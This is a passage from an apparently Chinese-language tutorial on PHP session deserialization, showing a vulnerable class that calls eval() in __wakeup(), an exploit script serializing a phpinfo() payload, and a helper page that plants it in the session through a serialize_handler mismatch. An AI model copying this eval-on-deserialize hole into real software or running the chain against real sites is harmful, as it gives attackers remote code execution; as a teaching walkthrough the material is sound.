 ```php
<?php
  highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php');
session_start();
class Test{
  public $code;
  function __wakeup(){
    eval($this->code);
  }
}
```

这应该是很简单的一个反序列化，反序列化后会先直接进入__wakeup()，然后就eval执行任意代码了，我们先写个exp：

```php
<?php
  class Test{
  public $code='phpinfo();';
  }
  $a = new Test();
echo serialize($a);
?>
```

然后我们再写一个页面，因为这里既没有传参的点也没有反序列化的点，相对于有漏洞利用不了，那我们就写一个利用它的页面sess.php：

```php
<?php
  highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
if(isset($_GET['test'])){
  $_SESSION['test']=$_GET['test'];
}
  ?>
```

有了这个页面我们就可以把想要的内容写入到Session中了，然后就可以在有漏洞的页面中执行反序列化了，接下来开始操作，首先运行exp.php：

![img](assets/202304161617448.png)

然后我们通过sess.php将运行结果写入Session中，记得在前面加上|：

![img](assets/202304161617796.png)